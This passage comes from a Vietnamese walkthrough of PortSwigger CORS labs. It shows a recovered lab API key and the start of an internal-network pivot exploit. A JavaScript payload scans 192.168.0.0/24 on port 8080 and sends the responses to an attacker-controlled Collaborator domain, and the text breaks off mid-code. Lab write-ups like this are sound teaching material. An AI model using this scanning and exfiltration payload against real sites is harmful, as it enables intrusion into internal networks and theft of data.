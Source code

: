 ![image](https://hackmd.io/_uploads/S1Rounzap.png)

Sau đó mình có thể chọn Store và View exploit để kiểm hàng trong Access log để xác nhận sự hiện diện của API Key

- và mình được apikey là **3DDjt8SbGJziqYDBHhQVXY3IsKFM0icI**

![image](https://hackmd.io/_uploads/Sk5dunfTp.png)

submit và mình solve được lab này

![image](https://hackmd.io/_uploads/HkO5_3zap.png)

## 4. Lab: CORS vulnerability with internal network pivot attack

link: https://portswigger.net/web-security/cors/lab-internal-network-pivot-attack

### Đề bài

![image](https://hackmd.io/_uploads/ryc5K2f6a.png)

### Phân tích

- Trang web này có cấu hình CORS không an toàn ở chỗ nó tin cậy tất cả nguồn gốc mạng nội bộ.
- Phòng thí nghiệm này yêu cầu nhiều bước để hoàn thành. Để giải quyết bài lab mình cần tạo một số JavaScript để xác định điểm cuối trên mạng cục bộ ( 192.168.0.0/24, cổng 8080) mà sau đó có thể sử dụng để xác định và tạo một cuộc tấn công dựa trên CORS nhằm xóa người dùng. Lab được giải quyết khi bạn xóa người dùng carlos.

### Khai thác

- Ta sẽ sử dụng payload sau để bruteforce tìm địa chỉ internal service port 8080 nằm trong dải 192.168.0.0/24. Nếu tìm được đúng IP thì nó sẽ trả mã nguồn về collaborator mình đang control.

```javascript!
<script>
var q = [], collaboratorURL = 'http://lh6a3jy61r4vwcmoze5hj6s34uaky9.oastify.com';

for(i=1;i<=255;i++) {
	q.push(function(url) {
		return function(wait) {
			fetchUrl(url, wait);
		}
	}('http://192.168.0.'+i+':8080'));
}

for(i=1;i<=20;i++){
	if(q.length)q.shift()(i*100);
}

function fetchUrl(url, wait) {
	var controller = new AbortController(), signal = controller.signal;
	fetch(url, {signal}).then(r => r.text().then(text => {
		location = collaboratorURL + '?ip='+url.replace(/^http:\/\//,'')+'&code='+encodeURIComponent(text)+'&'+Date.now();
	}))
	.catch(e => {
		if(q.length) {
			q.shift()(wait);
		}
	});
	setTimeout(x => {
		controller.abort();
```